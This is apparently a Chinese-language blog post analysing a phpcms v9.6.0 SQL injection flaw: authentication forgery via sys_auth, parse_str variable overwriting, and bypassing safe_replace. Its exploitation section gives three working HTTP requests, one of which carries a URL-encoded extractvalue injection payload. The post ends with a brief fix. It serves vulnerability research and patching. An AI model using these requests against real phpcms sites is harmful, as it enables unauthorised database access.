







前言
phpcms v9.6.0 sql注入漏洞分析下来很有趣，其中需要身份伪造,利用思路很像Dedecms | cookie伪造导致任意前台用户登录
该漏洞提供给我们一个思路，身份认证相关方法如果使用不当能会导致垂直越权或者危险操作限制bypass，多发生在cookie生成
为了具体分析，就不整合成一个系列。
漏洞原理
sys_auth方法使用不当导致身份伪造，消毒操作存在绕过，parse_str存在变量覆盖和url解码
PHPcms v9.6.0 SQL注入漏洞
漏洞点：phpcms/modules/content/down.php
$a_k参数可控，经过DECODE解密，秘钥是pc_base::load_config('system','auth_key')，不存在解密可能，可以考虑伪造!!!
$a_k参数经过parse_str后会造成变量覆盖且存在解码url编码操作。可以使得$id参数覆盖为恶意值，带入get_one方法进行数据库查询，由于加密算法存在，无法直接构造注入语句，需要找到sys_auth($可控,'ENCODE')将注入语句加密。
全局搜索
sys_auth方法，该方法可能会在其他位置调用要求加密值可控，相同秘钥，可输出

满足以上条件只有一处，位于phpcms/libs/classes/param.class.php方法set_cookie

方法set_cookie不属于module控制类，需要全局搜索相应的调用。定位于phpcms/modules/attachment/attachments.php方法swfupload_json。这里参数都可控，利用src参数写入注入语句

但调用该方法存在限制，attachments类构造方法存在身份登录验证。需要伪造身份登录验证，全局搜索param::get_cookie('_userid')无果，可以尝试利用sys_auth($_POST[‘userid_flash’],’DECODE’))
搜索思路: 只要伪造的$_POST['userid_flash']可以正常被解密就ok

伪造利用点：phpcms/modules/wap/index.php方法__construct
直接传入参数siteid=1，set_cookie方法实现加密并输出到界面

漏洞利用
phpcms/modules/attachments/attachments.php方法swupload_json
需要注意的是safe_replace方法会对参数进行过滤

1. 伪造身份登录
exp
1 | GET /cms/phpcms_v9.6.0_GBK/install_package/index.php?m=wap&c=index&a=init&siteid=1 HTTP/1.1 |

2. $a_k参数伪造
因为会对单引号过滤，添加\绕过

post：userid_flash=3a3eDDxyeLyJiVa0OnxtRMTFT-dUiUJNyiFi5XuR
exp
1 | POST /cms/phpcms_v9.6.0_GBK/install_package/index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&filename=123&src=%26m%3d1%26modelid%3d1%26catid%3d1%26f%3d1%26id%3d%2\7%20%61%6e%64%20%65%78%74%72%61%63%74%76%61%6c%75%65%28%31%2c%63%6f%6e%63%61%74%28%30%78%37%65%2c%64%61%74%61%62%61%73%65%28%29%2c%30%78%37%65%29%29%23 HTTP/1.1 |

3. SQL注入攻击
将第二步生成的Inuyg_att_json赋值给a_k
exp
1 | GET /cms/phpcms_v9.6.0_GBK/install_package/index.php?m=content&c=down&a=init&a_k=4c45OqkiGPU7JLh5_RVr1ExJNtQ136kir3IVKOi1uKmvUWYwSFJQNAKXSk_YGIZ3EEm9J6CPvaBICuy2BrmjQ6SDMNmByxFM2Kz8DOQUivEPKCRpFiVjM_Fh3El0iL1wjmb3t04vlxirpLGx0hteTNxK4W3vCLvBAW62EJLjl5WF8hLOkcoDdoUMqvyQDuLlVNXR HTTP/1.1 |

漏洞修复
- 限制
$id参数只能为整型 - 拼接新key值

参考链接
https://mochazz.github.io/2019/07/18/phpcms%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E5%90%88%E9%9B%86/